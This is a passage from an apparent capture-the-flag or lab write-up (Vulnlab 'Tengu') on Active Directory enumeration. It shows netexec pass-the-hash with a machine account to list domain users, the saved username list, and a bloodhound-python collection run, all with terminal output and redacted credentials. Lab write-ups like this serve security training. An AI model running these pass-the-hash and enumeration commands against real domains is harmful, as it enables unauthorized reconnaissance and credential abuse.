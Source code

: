 ## Active Directory Enumeration

The extracted `hash` of `NODERED$` gave us the capability to enumerate the `Active Directory` configuration of `dc.tengu.vl`. We used `Netexec` with the `--users` option to get a list of available users. Alternatively we could had gone for `RID Brute Forcing`.

```c
┌──(kali㉿kali)-[~]
└─$ proxychains -q netexec ldap 'dc.tengu.vl' -u 'NODERED$' -H 'REDACTED' --users
SMB         10.10.186.229   445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:tengu.vl) (signing:True) (SMBv1:False)
LDAP        10.10.186.229   389    DC               [+] tengu.vl\NODERED$:REDACTED 
LDAP        10.10.186.229   389    DC               [*] Total of records returned 213
LDAP        10.10.186.229   389    DC               Administrator                  Built-in account for administering the computer/domain
LDAP        10.10.186.229   389    DC               Guest                          Built-in account for guest access to the computer/domain
LDAP        10.10.186.229   389    DC               krbtgt                         Key Distribution Center Service Account
LDAP        10.10.186.229   389    DC               c.fowler                     
LDAP        10.10.186.229   389    DC               t2_c.fowler                  
LDAP        10.10.186.229   389    DC               t1_c.fowler                  
LDAP        10.10.186.229   389    DC               t0_c.fowler                  
LDAP        10.10.186.229   389    DC               m.winters                    
LDAP        10.10.186.229   389    DC               t2_m.winters                 
LDAP        10.10.186.229   389    DC               t1_m.winters                 
<--- CUT FOR BREVITY --->
LDAP        10.10.186.229   389    DC               Hayley.Weston                
LDAP        10.10.186.229   389    DC               Catherine.Chapman            
LDAP        10.10.186.229   389    DC               Howard.Johnson
```

```c
┌──(kali㉿kali)-[/media/…/Vulnlab/Chains/Tengu/files]
└─$ cat usernames.txt 
c.fowler                       
t2_c.fowler                    
t1_c.fowler                    
t0_c.fowler                    
m.winters                      
t2_m.winters                   
t1_m.winters                   
<--- CUT FOR BREVITY --->
Lynne.Marshall                 
Nicole.Price                   
Brandon.Gibson
```

As next logical step we `dumped` the `Active Directory` configuration using `BloodHound`.

```c
┌──(kali㉿kali)-[/media/…/Vulnlab/Chains/Tengu/files]
└─$ proxychains -q bloodhound-python -u 't2_m.winters' -p 'REDACTED' -d 'tengu.vl' -ns 10.10.186.229 -c ALL --zip
INFO: Found AD domain: tengu.vl
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc.tengu.vl
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 3 computers
INFO: Connecting to LDAP server: dc.tengu.vl
INFO: Connecting to GC LDAP server: dc.tengu.vl
INFO: Found 213 users
INFO: Found 58 groups
INFO: Found 2 gpos
INFO: Found 11 ous
```